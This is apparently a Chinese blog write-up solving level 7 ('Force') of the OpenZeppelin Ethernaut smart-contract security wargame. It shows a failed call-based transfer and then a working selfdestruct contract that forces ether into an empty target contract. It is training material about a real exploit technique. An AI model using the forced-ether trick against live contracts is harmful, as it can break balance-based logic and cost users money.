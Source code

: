 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-6'
date: 2022-12-10 13:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'








---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第七关Force  思路与POC

##### 目标: 想办法增加合约余额

#### 先看代码:

##### 好吧 没有代码 :six:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

#### 问题在于一个空合约该如何接收转账:question:

##### 先直接转账试一试

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceTranfer {

   receive() external payable {
       
   }
  //call函数转账失败 目标合约是空合约 没有payable标识的方法
    function transferTo(address payable dest ) public{
        
        dest.call{value : address(this).balance}("");
    }

```

##### 没有用 交易虽然成功但是转账金额被revert

![info](./assets/1670659062482.png)

#### 通过查阅文档发现如果将一个合约自毁的话是会将余额转账到备份合约上的 ,而且`selfdestruct`函数是直接操作字节码的.

#### :link:https://docs.soliditylang.org/en/v0.8.17/introduction-to-smart-contracts.html?highlight=self#deactivate-and-self-destruct

##### 试一试:

```solidity
 function selfDestroy(address payable addr ) public {
    
    selfdestruct(addr);
  }
```

##### 成功:+1:

![info2](./assets/1670659498827.png)

![info3](./assets/1670659599586.png)
